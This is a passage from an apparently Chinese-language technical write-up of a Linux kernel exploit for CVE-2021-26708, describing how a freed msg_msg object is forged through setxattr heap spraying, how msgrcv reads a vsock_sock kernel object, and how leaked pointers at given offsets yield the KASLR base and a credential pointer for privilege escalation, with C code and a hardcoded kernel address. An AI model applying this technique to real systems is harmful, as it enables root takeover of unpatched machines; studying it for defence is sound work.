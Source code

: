   - 这种情况下，`msgsnd()`会返回-1，且被修改的`msg_msg`会修改，释放`msg_msg.security`时实际上释放了一个有效的`msg_msg`对象。

- 4.伪造被释放的`msg_msg`对象

  - 在`msgsnd()`失败后，立刻调用`pthread_barrier_wait()`放开栅栏，唤醒127个堆喷线程；

  - 这些线程会调用`setxattr()`来堆喷（payload是用前面提到的`adapt_xattr_vs_sysv_msg_spray(vsock_kaddr)`来布置的）；

  - 现在`msg_msg`对象被覆盖为可控数据，且`msg_msg.next`指针指向System V message段（保存着`vsock_sock`对象的地址，前面通过`RBX`泄露）。

    ![3-3-corrupted_and_overwritten_msg_msg](/images/posts/CVE-2021-26708/3-3-corrupted_and_overwritten_msg_msg.png)

- 5.通过从消息队列（保存着伪造的`msg_msg`对象）接收消息，来读取`vsock_sock`内核对象的内容。

  ```
  ret = msgrcv(msg_locations[0].msq_id, kmem, ARB_READ_SZ, 0,
                  IPC_NOWAIT | MSG_COPY | MSG_NOERROR);
  ```

#### 6. 泄露其它堆块和内核基址

目前能够读取`vsock_sock`对象的内容，分析其内容，研究如何继续利用呢？

**`vsock_sock`内容**：

- 很多指向专用cache的指针，如`PINGv6`和`sock_inode_cache`，没有用；
- `struct mem_cgroup *sk_memcg`指针在`vsock_sock.sk`的偏移664处，`mem_cgroup`结构位于`kmalloc-4k`，非常好；
- `const struct cred *owner`指针在`vsock_sock`的偏移840处，可以覆盖它指向的凭证来提权；
- `void (*sk_write_space)(struct sock *)`函数指针在`vsock_sock.sk`的偏移为688，该指针会被赋值为[`sock_def_write_space()`](https://elixir.bootlin.com/linux/v5.10.12/source/net/core/sock.c#L2991)，可用于计算KASLR offset。

以下代码负责搜集`vsock_sock`中的指针信息：

```c
#define MSG_MSG_SZ		48
#define DATALEN_MSG 		(PAGE_SIZE - MSG_MSG_SZ)
#define SK_MEMCG_OFFSET 	664
#define SK_MEMCG_RD_LOCATION	(DATALEN_MSG + SK_MEMCG_OFFSET)
#define OWNER_CRED_OFFSET	840
#define OWNER_CRED_RD_LOCATION	(DATALEN_MSG + OWNER_CRED_OFFSET)
#define SK_WRITE_SPACE_OFFSET	688
#define SK_WRITE_SPACE_RD_LOCATION (DATALEN_MSG + SK_WRITE_SPACE_OFFSET)

/*
 * From Linux kernel 5.10.11-200.fc33.x86_64:
 *   function pointer for calculating KASLR secret
 */
#define SOCK_DEF_WRITE_SPACE	0xffffffff819851b0lu

unsigned long sk_memcg = 0;
```